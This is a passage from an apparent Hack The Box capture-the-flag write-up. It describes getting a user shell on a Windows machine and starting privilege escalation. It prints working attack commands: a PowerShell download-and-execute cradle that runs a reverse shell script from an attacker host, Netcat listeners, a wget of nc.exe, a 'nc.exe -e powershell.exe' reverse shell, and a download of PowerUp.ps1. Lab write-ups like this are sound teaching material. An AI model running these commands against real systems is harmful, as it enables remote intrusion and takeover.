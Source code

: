 ```bash
$ nc -lvnp 4444
```
Within our exploit python file, we will change our command to the following, which will download and execute our reverse shell script.

```python
command = "IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.15.50/mini-reverse.ps1')"
```

After running the RCE exploit, we can see that the box connects successfully to our HTTP server and our Netcat listener successfully connects. Let's not try to use Netcat upgrade our shell. We'll start another listener for this new session.

```bash
$ nc -lvnp 4445
```

We'll use our python exploit to quickly grab the `nc.exe` file as well.

```python
command = "wget 'http://10.10.14.85/nc.exe' -outfile '/Users/Public/Documents/nc.exe'"
```

Within the dumb shell that we have from earlier, we'll run the following command, using Netcat to open a better shell.

```powershell
> C:\Users\Public\Documents\nc.exe 10.10.15.50 4445 -e powershell.exe
```

Now, let's grab the user flag from the public user directory.

![](/assets/img/posts/htb/07-2020-2/user-flag.png)

## Root Flag

Now, onto root. Let's get the [PowerUp script](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) from PowerSploit onto the box. This will allow us to enumerate any avenues to escalate our privileges.

First, we'll place the script into our web server directory and use our Powershell session to download it. Let's place it into `C:\Users\Public\Documents\` directory.

```powershell
> invoke-webrequest -Uri http://10.10.15.50/PowerUp.ps1 -OutFile PowerUp.ps1
> Import-Module C:\Users\Public\Documents\powerup.ps1
```
